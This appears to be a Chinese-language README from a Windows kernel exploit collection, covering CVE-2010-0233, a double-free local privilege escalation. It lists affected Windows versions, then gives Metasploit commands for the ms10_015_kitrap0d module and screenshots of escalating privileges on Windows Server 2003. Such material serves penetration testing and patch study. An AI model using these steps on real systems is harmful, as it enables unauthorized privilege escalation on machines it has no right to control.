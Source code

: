 ### CVE-2010-0233

#### 描述

内核中的双重免费漏洞允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP2    | :heavy_check_mark: |
| Windows Server 2008 |                  |         | SP2    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         |        |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

编译环境

- nmake 2013

测试系统Windows Server 2003 SP2 x86

![25](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86.gif?raw=true)

> msf利用

测试系统Windows Server 2003 SP2 x86，执行以下代码

```
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 3
run
```

可以看到当前权限是最低的

![image-20200823123824229](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf.png?raw=true)

然后执行命令提权

![image-20200823123945054](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf2.png?raw=true)